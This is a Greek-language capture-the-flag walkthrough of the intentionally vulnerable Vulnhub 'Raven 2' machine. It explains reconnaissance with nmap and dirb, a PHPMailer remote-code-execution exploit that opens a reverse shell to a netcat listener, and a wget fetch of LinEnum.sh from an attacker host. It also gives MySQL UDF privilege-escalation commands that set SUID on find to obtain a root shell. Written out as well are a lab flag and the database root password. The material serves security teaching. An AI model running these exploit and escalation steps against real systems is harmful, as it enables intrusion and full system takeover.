# Εκπαιδευτικό Εγχειρίδιο Ασφάλειας Πληροφοριακών Συστημάτων: Ανάλυση του Raven 2 (Vulnhub)

## 1. Εισαγωγή
Το παρόν έγγραφο αποτελεί έναν αναλυτικό, τεχνικό οδηγό για την επίλυση του εικονικού μηχανήματος (Virtual Machine) **Raven 2**, το οποίο διατίθεται μέσω της πλατφόρμας Vulnhub. Το Raven 2 ταξινομείται ως μηχάνημα επιπέδου "Beginner/Intermediate" τύπου boot2root. Ο αντικειμενικός σκοπός της άσκησης είναι η απόκτηση τεσσάρων (4) ψηφιακών σημαιών (flags) και, τελικά, η πλήρης παραβίαση του συστήματος με την απόκτηση δικαιωμάτων υπερχρήστη (root).

> **Πηγή / Λήψη:** [VulnHub — Raven: 2](https://www.vulnhub.com/entry/raven-2,269/) · **Writeup αναφοράς:** [Hacking Articles — Raven 2: Vulnhub Walkthrough](https://www.hackingarticles.in/raven-2-vulnhub-walkthrough/)

---

## 2. Αναγνώριση Δικτύου και Σάρωση Θυρών (Network Reconnaissance)

Η αρχική φάση κάθε δοκιμής διείσδυσης απαιτεί την ταυτοποίηση του στόχου στο τοπικό δίκτυο.



*Εικόνα 1 — Σάρωση Δικτύου μέσω `netdiscover`: εντοπίστηκε ο κόμβος `192.168.1.101` με MAC Vendor «VMware, Inc.».*

Μετά την εύρεση της IP διεύθυνσης του στόχου (στο παρόν σενάριο `192.168.1.101`), πραγματοποιείται λεπτομερής σάρωση για τον εντοπισμό ανοιχτών θυρών και ενεργών υπηρεσιών.

```bash
nmap -A 192.168.1.101
```



*Εικόνα 2 — `nmap -A`: ταυτοποίηση λειτουργικού συστήματος, εκδόσεων υπηρεσιών και traceroute.*

* `nmap`: Το βιομηχανικό πρότυπο για τη χαρτογράφηση δικτύων (Network Mapper).
* `-A`: Η παράμετρος "Aggressive". Αποτελεί μια σύνθετη εντολή που ενεργοποιεί ταυτόχρονα την ανίχνευση του Λειτουργικού Συστήματος (OS detection), την ανίχνευση εκδόσεων των υπηρεσιών (Version detection), τη σάρωση μέσω δεσμών ενεργειών (Script scanning) και την ιχνηλάτηση διαδρομής (Traceroute).
* `192.168.1.101`: Η διεύθυνση IP του συστήματος-στόχου.

Η σάρωση αποκάλυψε τρεις ανοιχτές θύρες: 22 (SSH), 80 (HTTP) και 111 (RPC).

---

## 3. Απαρίθμηση Υπηρεσιών Ιστού (Web Enumeration)

Εφόσον εντοπίστηκε υπηρεσία HTTP στη θύρα 80, η επόμενη ενέργεια είναι η χαρτογράφηση της δομής του ιστότοπου.


*Εικόνα 3 — Εντοπισμός Ιστότοπου Raven Security στη θύρα 80.*

Για την αποκάλυψη κρυφών καταλόγων (directories), χρησιμοποιείται τεχνική επίθεσης λεξικού (brute-forcing).

```bash
dirb http://192.168.1.101/
```

* `dirb`: Ένα εξειδικευμένο εργαλείο σάρωσης διαδικτυακών εφαρμογών (Web Content Scanner). Λειτουργεί αποστέλλοντας συνεχή αιτήματα HTTP GET χρησιμοποιώντας λέξεις από ένα προκαθορισμένο λεξικό, αναζητώντας απαντήσεις τύπου 200 OK ή 403 Forbidden.
* `http://192.168.1.101/`: Το βασικό URI (Uniform Resource Identifier) του στόχου.



*Εικόνα 4 — Αποτελέσματα σάρωσης `dirb`: εντοπίστηκε ο κατάλογος `/vendor/` (και το `/wordpress/`).*

Η σάρωση υπέδειξε την ύπαρξη του καταλόγου `/vendor`. Κατά την πλοήγηση στον κατάλογο αυτό, εντοπίστηκαν αρχεία με ιδιαίτερο ενδιαφέρον.



*Εικόνα 5 — Το index του `/vendor/`: `PATH`, `VERSION`, `PHPMailerAutoload.php`, `class.phpmailer.php`.*

* **Αρχείο `PATH`**: Η προβολή του αποκάλυψε την πρώτη σημαία (Flag 1).



*Εικόνα 6 — `flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}` μέσα στο `/vendor/PATH`.*

* **Αρχείο `VERSION`**: Υποδείκνυε την έκδοση 5.2.6. Σε συνδυασμό με την παρουσία του αρχείου `PHPMailerAutoload.php`, συνάγεται το συμπέρασμα ότι το σύστημα χρησιμοποιεί τη βιβλιοθήκη **PHPMailer έκδοσης 5.2.6**.

---

## 4. Αρχική Πρόσβαση (Initial Access)

Η βιβλιοθήκη PHPMailer 5.2.6 είναι γνωστό ότι διαθέτει κρίσιμη ευπάθεια που επιτρέπει την Απομακρυσμένη Εκτέλεση Κώδικα (Remote Code Execution - RCE).



*Εικόνα 7 — Exploit-DB **40974** (CVE-2016-10033): PHPMailer < 5.2.18 Remote Code Execution (Python).*



*Εικόνα 8 — Τροποποίηση του κώδικα εκμετάλλευσης (Exploit) σε Python: `# coding: utf-8`, `target`, `backdoor` και IP για το reverse shell.*

Κατόπιν λήψης ενός σχετικού κώδικα εκμετάλλευσης (exploit) σε γλώσσα Python, απαιτούνται συγκεκριμένες παραμετροποιήσεις:
1. Προσθήκη της δήλωσης κωδικοποίησης: `# coding: utf-8`.
2. Καθορισμός του URI στόχου (π.χ., `/contact.php`).
3. Καθορισμός του ονόματος του κακόβουλου αρχείου (backdoor.php).
4. Εισαγωγή της IP διεύθυνσης του επιτιθέμενου για την εγκαθίδρυση αντίστροφης σύνδεσης (reverse shell).



*Εικόνα 9 — Εκτέλεση του exploit: «SeNdіNg eViL sHeLL… SpAwnIng eViL sHeLL…» και `ExPloiTeD http://192.168.1.101/contact.php`.*

Τώρα πρέπει να ρυθμίσουμε τον ακροατή (listener) και να μεταβούμε στον κατάλογο του backdoor, που στην περίπτωσή μας είναι το rev.php. Μπορούμε να το κάνουμε αυτό ρυθμίζοντας το netcat με τη θύρα 4444 (προεπιλογή) και μεταβαίνοντας στη διεύθυνση ip-address/rev.php. Και αν τα κάναμε όλα αυτά σωστά, θα πρέπει να έχουμε ένα κέλυφος (shell) μέσα στον web server.



*Εικόνα 10 — Λήψη αντίστροφου κελύφους: `nc -lvp 4444` και σύνδεση από τον web server.*

Ας δούμε αναλυτικά τι σημαίνει το κάθε στοιχείο:

- Listener (Ακροατής): Είναι ένα πρόγραμμα που τρέχει στον υπολογιστή του επιτιθέμενου/ελεγκτή και "ακούει" σε μια συγκεκριμένη θύρα (port) περιμένοντας μια εισερχόμενη σύνδεση από τον υπολογιστή-στόχο.

- Netcat (nc): Το εργαλείο που αναφέρεται για τη δημιουργία του listener. Είναι ένα γνωστό εργαλείο δικτύωσης που μπορεί να διαβάζει και να γράφει δεδομένα σε συνδέσεις δικτύου. Η θύρα 4444 χρησιμοποιείται συχνά ως προεπιλογή σε πολλά εργαλεία ασφαλείας (όπως το Metasploit).

- Backdoor (Κερκόπορτα) / rev.php: Πρόκειται για ένα αρχείο (στην προκειμένη περίπτωση γραμμένο σε γλώσσα PHP, γι' αυτό και καταλήγει σε .php) που έχει ήδη μεταφορτωθεί (uploaded) στον web server από τον επιτιθέμενο. Όταν κάποιος επισκεφθεί αυτή τη σελίδα (δηλαδή πάει στο ip-address/rev.php μέσω ενός browser), ο κώδικας εκτελείται στον server.

- Η Διαδικασία του Reverse Shell: Αντί να προσπαθήσει ο επιτιθέμενος να συνδεθεί απευθείας στον server (κάτι που συνήθως μπλοκάρεται από τα Firewalls), κάνει τον server να συνδεθεί πίσω σε αυτόν. Πρώτα στήνετε το Netcat (τον listener) στον υπολογιστή του. Έπειτα, ανοίγει το rev.php μέσω του browser. Το αρχείο αυτό δίνει εντολή στον server να συνδεθεί στο Netcat που περιμένει στη θύρα 4444.

- Shell μέσα στον web server: Αν η σύνδεση πετύχει, το Netcat συνδέεται με τη γραμμή εντολών του διακομιστή (shell). Από εκείνη τη στιγμή, ο χρήστης μπορεί να πληκτρολογεί εντολές στον δικό του υπολογιστή και αυτές να εκτελούνται απευθείας στο σύστημα του web server.

Για τη σταθεροποίηση του τερματικού και τη μετατροπή του σε πλήρως διαδραστικό TTY (Teletype), εκτελείται η εξής εντολή:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```



*Εικόνα 11 — Αναβάθμιση του «τυφλού» κελύφους σε διαδραστικό TTY και ορισμός `TERM=xterm`.*

* `python -c`: Δίνει εντολή στον διερμηνέα της Python να εκτελέσει τον κώδικα που ακολουθεί σε μορφή συμβολοσειράς (inline command).
* `import pty; pty.spawn("/bin/bash")`: Εισάγει τη βιβλιοθήκη `pty` (pseudo-terminal utilities) και καλεί τη μέθοδο `spawn` για να εκκινήσει μια νέα διεργασία του φλοιού `/bin/bash`, συνδέοντάς την με ένα ψευδο-τερματικό. Αυτό επιλύει προβλήματα εμφάνισης και αλληλεπίδρασης σε "τυφλά" κελύφη.

Στη συνέχεια, με εντολές πλοήγησης (`cd /var/www`), ανακτήθηκε η δεύτερη σημαία (Flag 2).



*Εικόνα 12 — Ανάκτηση της δεύτερης σημαίας από το `/var/www/flag2.txt`.*

---

## 5. Κλιμάκωση Προνομίων (Privilege Escalation)

### 5.1 Απαρίθμηση Συστήματος (System Enumeration)
Ερευνώντας τον κατάλογο του WordPress, εντοπίστηκε το αρχείο διαμόρφωσης `wp-config.php`. Η εξέτασή του παρείχε τον κωδικό πρόσβασης του χρήστη root της βάσης δεδομένων (`R@v3nSecurity`).

Για περαιτέρω ανάλυση των εσωτερικών ρυθμίσεων του Λειτουργικού Συστήματος, χρησιμοποιήθηκε το αυτοματοποιημένο σενάριο (script) `LinEnum.sh`.

```bash
cd /tmp
wget http://192.168.1.109/LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum.sh
```

* `cd /tmp`: Μετάβαση στον κατάλογο προσωρινών αρχείων, ο οποίος συνήθως επιτρέπει εγγραφή σε απλούς χρήστες.
* `wget http://192.168.1.109/LinEnum.sh`: Λήψη του εργαλείου από τον διακομιστή του επιτιθέμενου μέσω πρωτοκόλλου HTTP (οι IP είναι ενδεικτικές).
* `chmod 777 LinEnum.sh`: Αλλαγή των δικαιωμάτων του αρχείου, χορηγώντας δικαιώματα ανάγνωσης, εγγραφής και εκτέλεσης (Read/Write/Execute) σε όλους τους χρήστες.
* `./LinEnum.sh`: Εκτέλεση του σεναρίου.

### 5.2 Εκμετάλλευση MySQL UDF (CVE-2016-6662)
Σύμφωνα με την αρχή των ελάχιστων προνομίων (principle of least privilege), υπηρεσίες όπως η MySQL θα πρέπει να εκτελούνται υπό τους δικούς τους, αποκλειστικούς λογαριασμούς χρηστών χωρίς αυξημένα προνόμια (π.χ. ένας χρήστης με το όνομα mysql). Όταν η MySQL εκτελείται ως root, οποιαδήποτε ενέργεια εκτελείται από τη μηχανή της βάσης δεδομένων αλληλεπιδρά με το λειτουργικό σύστημα χρησιμοποιώντας δικαιώματα επιπέδου root. Εάν ένας επιτιθέμενος βρει τρόπο να κάνει τη βάση δεδομένων να εκτελέσει εντολές συστήματος ή να γράψει σε αρχεία, αποκτά αμέσως πλήρη έλεγχο του διακομιστή.

Η ανάλυση κατέδειξε ευπάθεια στην υπηρεσία MySQL που επιτρέπει την εκτέλεση εντολών συστήματος ως root, μέσω της χρήσης Δυναμικών Βιβλιοθηκών (UDF - User Defined Functions). Ο κώδικας εκμετάλλευσης έχει το αναγνωριστικό `1518.c` στο Exploit-DB.

```bash
searchsploit -m 1518.c
gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc
```

* `searchsploit -m`: Αναζητά και αντιγράφει (mirror) τον πηγαίο κώδικα του exploit στον τρέχοντα κατάλογο.
* `gcc`: Ο μεταγλωττιστής της συλλογής GNU (GNU Compiler Collection).
* `-g`: Παράγει πληροφορίες αποσφαλμάτωσης (debugging information).
* `-shared`: Δημιουργεί ένα κοινόχρηστο αντικείμενο (shared object / δυναμική βιβλιοθήκη), απαραίτητο για τη φόρτωση από τη MySQL.
* `-Wl,-soname,1518.so`: Μεταβιβάζει παραμέτρους στον συνδέτη (linker), ορίζοντας το "λογικό" όνομα της βιβλιοθήκης.
* `-o 1518.so`: Καθορίζει το όνομα του τελικού παραγόμενου αρχείου.
* `1518.c`: Το πηγαίο αρχείο.
* `-lc`: Σύνδεση με τη βασική βιβλιοθήκη της γλώσσας C (libc).

Αφού το μεταγλωττισμένο αρχείο `.so` μεταφερθεί στον στόχο (μέσω `wget`), πραγματοποιείται σύνδεση στη MySQL:

```bash
mysql -u root -p
```



*Εικόνα 13 — Σύνδεση στη MySQL ως `root` και `SHOW DATABASES`: υπάρχει η βάση `wordpress`.*

* `mysql`: Η διεπαφή γραμμής εντολών της βάσης.
* `-u root`: Καθορισμός του χρήστη (βάσει των διαπιστευτηρίων που βρέθηκαν).
* `-p`: Απαιτεί την εισαγωγή κωδικού (R@v3nSecurity).

Εντός του περιβάλλοντος SQL, εκτελούνται τα εξής:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select do_system('chmod u+s /usr/bin/find');
```

1. Δημιουργείται ένας προσωρινός πίνακας `foo` με πεδίο τύπου `blob` (Binary Large Object) για την αποθήκευση δυαδικών δεδομένων.
2. Το δυαδικό αρχείο `1518.so` φορτώνεται από το φάκελο `/tmp` εντός του πίνακα.
3. Το περιεχόμενο εξάγεται (`dumpfile`) στον ευάλωτο κατάλογο προσθέτων (plugins) της MySQL.
4. Δημιουργείται η συνάρτηση `do_system`, η οποία αντλεί τη λειτουργικότητά της (soname) από τη βιβλιοθήκη που μόλις εμφυτεύθηκε.
5. Καλείται η συνάρτηση `do_system` για να εκτελέσει την εντολή `chmod u+s /usr/bin/find`. Αυτό θέτει το **SUID bit (Set-User-ID)** στο εκτελέσιμο `find`, επιτρέποντας σε οποιονδήποτε χρήστη να το εκτελέσει με τα δικαιώματα του ιδιοκτήτη του αρχείου (δηλαδή του root).

---

## 6. Τελική Παραβίαση (Root Access) & Εύρεση Σημαιών

Εκμεταλλευόμενοι το εκτελέσιμο `find` που φέρει πλέον το SUID bit, εκτελούνται εντολές ως υπερχρήστης.

```bash
touch raj
find raj -exec "/bin/sh" \;
```

* `touch raj`: Δημιουργεί ένα κενό αρχείο (ή ενημερώνει τη χρονοσφραγίδα του) με το όνομα "raj". Αυτό απαιτείται ως "δόλωμα" για να έχει κάτι να βρει η εντολή `find`.
* `find raj`: Καλεί το βοηθητικό πρόγραμμα `find` για να εντοπίσει το αρχείο "raj".
* `-exec "/bin/sh" \;`: Για κάθε αρχείο που βρίσκει, εκτελεί την εντολή που ακολουθεί. Εδώ, εκκινεί ένα κέλυφος (`/bin/sh`). Το `\;` σηματοδοτεί το τέλος της παραμέτρου `-exec`. Δεδομένου ότι το `find` τρέχει πλέον με δικαιώματα root (λόγω SUID), το κέλυφος που παράγεται κληρονομεί αυτά τα απόλυτα δικαιώματα.

Μέσα από αυτό το περιβάλλον υψηλών προνομίων, εντοπίστηκε η σημαία 4 (Flag 4) στον κατάλογο `/root`. Τέλος, η σημαία 3 (Flag 3) βρέθηκε αποθηκευμένη εντός της δομής του WordPress (`/var/www/html/wp-content/uploads/2018/11`).

---
